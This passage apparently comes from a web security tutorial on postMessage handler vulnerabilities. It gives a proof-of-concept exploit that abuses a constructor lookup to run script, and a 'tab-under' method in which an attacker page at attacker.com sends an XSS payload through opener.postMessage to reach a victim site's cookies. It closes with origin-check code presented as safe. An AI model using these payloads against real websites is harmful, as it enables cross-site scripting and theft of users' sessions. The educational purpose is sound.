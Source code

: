<strong>callbacks[category][name](e.data)();
</strong></code></pre>

{% code title="Exploit" %}
```javascript
const a = ["alert(origin)"]
a.category = "constructor"
a.name = "constructor"
postMessage(a, "*")
```
{% endcode %}

### Stealthier: tab-under method

Another stealthier way of doing the above is by never letting the user see the target website, only our attacker-controlled website. To do this, we can follow the idea below:

1. Victim visits the attacker's website
2. On interaction, use `window.open` to open a new window to an attacker's page again ("2nd window"). This will gain the focus of the browser now
3. Now the initial window changes its own location to the target page containing a vulnerable postMessage handler, this time in a top-level context
4. The 2nd window will now use `opener.postMessage` as its reference to the vulnerable domain and send the exploit to the postMessage handler. The resulting XSS will now have full access to cookies etc.

{% code title="https://attacker.com" %}
```javascript
// Code for 2nd tab:
setTimeout(() => {
  // After the new tab is opened, send a message to its opener which will have become the target
  opener.postMessage("alert()", "*");
}, 1000);

// Code for 1st tab:
onclick = () => {
  // Duplicate this tab, focus will go to new tab
  const w = window.open(location);
  // Stealthly change the location of the old tab to target
  location = "https://example.com";
};
```
{% endcode %}

### Bypassable origin checks

Websites often protect against the vulnerabilities above by checking the message origin at each handler. It will refuse to execute the potentially dangerous code if it doesn't match the expected origin. The following common examples are safe:

{% code title="Safe Examples" %}
```javascript
onmessage = (e) => {
  // Message must come from https://example.com exactly
  if (e.origin !== "https://example.com") return;
  eval(e.data);  // Dangerous, but we can't reach it cross-origin
}

onmessage = (e) => {
  // Message must come from the current address bar origin
  if (e.origin !== window.location.origin) return;
  eval(e.data);
}
```
{% endcode %}
